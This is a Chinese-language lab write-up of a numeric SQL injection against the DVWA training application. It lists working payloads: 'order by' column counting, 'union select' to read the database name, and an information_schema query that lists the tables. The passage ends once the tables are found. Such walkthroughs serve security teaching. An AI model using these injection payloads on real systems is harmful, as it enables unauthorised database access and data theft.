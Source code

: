 

### 代码分析

利用mysql_real_escape_string函数对特殊符号\x00,\n,\r,,’,”,\x1a进行转义，同时前端页面设置了下拉选择表单，希望以此来控制用户的输入。



### 漏洞例用

#### 数字型注入

抓包慕改ID为 1 order by 1 # ，成功

![image-20220525090242063](.\Lab7_SQL_Injection.assets\image-20220525090242063.png)

![image-20220822170401845](.\Lab7_SQL_Injection.assets\image-20220822170401845.png)



#### 顺便看一下字段数

`1 order by 2 #` 查询成功

![image-20220822170908647](.\Lab7_SQL_Injection.assets\image-20220822170908647.png)

`1 order by 3 #` 查询失败

![image-20220822170935404](.\Lab7_SQL_Injection.assets\image-20220822170935404.png)



**说明表中只有两个字段**



#### 获取当前数据库

```
1 union select 1,database() #
```

![image-20220822171302081](.\Lab7_SQL_Injection.assets\image-20220822171302081.png)

当前的数据库为dvwa



#### 获取数据库中的表

```
1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

![image-20220822171604960](.\Lab7_SQL_Injection.assets\image-20220822171604960.png)

**发现 guestbook, users 两个表**


